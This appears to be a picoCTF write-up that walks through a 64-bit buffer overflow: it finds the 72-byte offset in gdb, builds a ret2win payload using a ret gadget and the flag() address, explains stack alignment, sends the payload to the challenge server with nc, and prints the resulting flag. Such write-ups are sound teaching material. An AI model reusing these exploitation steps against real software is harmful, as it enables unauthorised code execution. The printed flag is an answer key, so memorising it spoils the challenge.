










First, we need to determine the offset, i.e., the distance from the beginning of the buffer at which the return address of the function begins to be overwritten.   

From `vuln.c` source code we see that the buffer into which user input is written occupies 64 bytes. The size of the "padding" is probably not much larger than 64.





Let's find out manually. First, we create a pattern of 100 characters to fill the buffer. We set a breakpoint to execute the program step by step (`main` is ok), and `run`:




Enter `ni` (next instruction) multiple times, to get to the part of the program where it asks for input: 




`← $rsp`, these are pattern symbols that have gone beyond the buffer limits, 28 out of 100:





So we will work with an offset of 72 bytes





```
bit	       Address space
64-bit --> 16-bit address 
32-bit -->  8-bit address 
```





```gdb
disass flag --> 0x0000000000401236 <+0>: endbr64 --> p64(0x0000000000401236) --> b'6\x12@\x00\x00\x00\x00\x00'

I created flag.txt and use the following payload:
gef➤ r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00")
```

In this way I test whether the payload works on the local side.


Next, we take the return address of main (`ret main`):

```gdb
disass main --> 0x000000000040133e <+108>:   ret --> p64(0x000000000040133e) --> b'>\x13@\x00\x00\x00\x00\x00'
```




> [!IMPORTANT]
> We form the payload in the following sequence:
>
> <table>
>  <tr>
>   <td>padding 'A'*72
>   </td>
>   <td>ret main() 
>   </td>
>   <td>endbr64 flag()
>   </td>
>  </tr>
>  <tr>
>   <td><code>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</code>
>   </td>
>   <td><code>>\x13@\x00\x00\x00\x00\x00</code>
> <p>
> <code>rewrite <strong> saved return address (RIP)</strong></code>
>   </td>
>   <td><code>6\x12@\x00\x00\x00\x00\x00</code>
>   </td>
>  </tr>
> </table>


> [!WARNING]
> **!! PAY ATTENTION**, that first comes the return address `ret` for `main()`, and THEN the address directly `flag()`


---

### Why payload is in this order?

This payload sequence uses a basic principle called "ROP chain".

Our order:

```
'A' * 72 + address ret_main + address flag()
```

1. Start `vuln()`:
	- We execute `vuln()`, that has `char buf[BUFFSIZE]` 64 bytes long. 
	- we explored that from the beginning of `buf` to return address are 72 bytes to fill the buffer and overwrite `rbp` and start overwrite return address
2. After exiting vuln():
	- compiler looks on return address (`ret`) on stack, which we overwrote. 
	- The program takes the first address after the buffer (ret_main) and jumps to it.
	- ret_main executes `ret`, which **retrieves the next address from the stack** (`flag()`) and jumps to it.
	- `flag()` executes and prints flag.
	- !! **After** `flag()`, the program **also executes** `ret`, which attempts to take the next address from the stack.

> [!IMPORTANT]
> Key moments:
> After `flag()`, there is no correct address in the stack (because we did not substitute them), so a `segfault` occurs. But `flag() had already printed `picoCTF{...` to stdout, so we don't care about pushing the next `ret` address on stack!
>
> So `ret main` is needed not to avoid segfault after flag(), but to correctly redirect execution to flag()!

---

### Why doesn't the exploit work without `ret main`?

If you simply substitute flag() for RET:

```
'A' * 72 + address flag()
```

... then after exiting `vuln()`, the program will immediately jump to `flag()`.

However, due to the stack alignment in 64-bit systems, or because `flag()` expects a certain stack state, it may not execute correctly (for example, it may not print the flag or may crash earlier).

---

### How to avoid `segfault`?

```
'A' * 72 + address ret_main + address flag() + address exit()
```

We need to call `exit()` function. Otherwise, processor will call `ret` again and will look further on stack for another 8 bytes

---

### Visualization

```
[ 'A'*72 ]          ← buffer + RBP
[ address ret_main ]  ← RET (overwritten address)
[ address flag() ]      ← the address retrieved by ret_main
[ garbage... ]        ← there will be a segfault here, but after printing the flag
```



---

### Conclusion

* `ret main` is needed for correct redirection to `flag()` (stack alignment, register state).
* Segfault after `flag()` is normal because the flag has already been obtained.
* If you want to avoid segfault, add the address of `exit()` after `flag()`.

<br/>

We form a payload for use on the server side:


```shell
echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>\x13@\x00\x00\x00\x00\x006\x12@\x00\x00\x00\x00\x00" | nc saturn.picoctf.net 54403
```





`picoCTF{b1663r_15_b3773r_47a99eda}`
